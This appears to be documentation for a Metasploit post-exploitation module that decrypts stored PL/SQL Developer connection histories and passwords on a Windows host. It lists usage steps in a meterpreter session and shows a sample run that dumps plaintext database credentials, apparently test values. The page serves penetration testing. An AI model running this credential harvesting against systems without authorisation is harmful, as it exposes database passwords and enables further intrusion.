 ## Vulnerable Application

This module can decrypt the histories and connection credentials of PL/SQL Developer,
and passwords are available if the user chooses to remember.

Analysis of encryption algorithm [here](https://adamcaudill.com/2016/02/02/plsql-developer-nonexistent-encryption/).
You can find its official website [here](https://www.allroundautomations.com/products/pl-sql-developer/).

## Verification Steps

  1. Download and install PL/SQL Developer.
  2. (Optional) Change the PL/SQL Developer preference to save the passwords.
  3. Use PL/SQL Developer to log in to oracle databases. Or add a connection in PL/SQL Developer manually.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/plsql_developer`
  6. The username, password, SID of connections will be printed.

## Options

### PLSQL_PATH

  - Specify the path of PL/SQL Developer

## Scenarios

```
meterpreter > run windows/gather/credentials/plsql_developer

[*] Gather PL/SQL Developer Histories and Connections on WIN-XXXXXXXXXXX
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
[*] Decrypting C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
PL/SQL Developer Histories and Credentials
==========================================

DisplayName                              Username  Database  ConnectAs  Password   FilePath
-----------                              --------  --------  ---------  --------   --------
[Connections]/Imported Fixed Users/Test  sys       ORCL      SYSDBA     pass       C:\Users\Administrator\AppData\Roaming\PLSQL Developer 15\Preferences\Administrator\user.prefs
[Connections]/Imported History/Test      sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer 14\Preferences\Administrator\user.prefs
[LogonHistory]                           test2     ORCL      Normal     password2  C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           test1     ORCL      Normal                C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           sys       ORCL      SYSDBA     oracle     C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs
[LogonHistory]                           user      server    Normal     password   C:\Users\Administrator\AppData\Roaming\PLSQL Developer\Preferences\Administrator\user.prefs

[+] Passwords stored in: C:/Users/Administrator/.msf4/loot/20231109050433_default_127.0.0.1_host.plsql_devel_357810.txt
meterpreter >
```
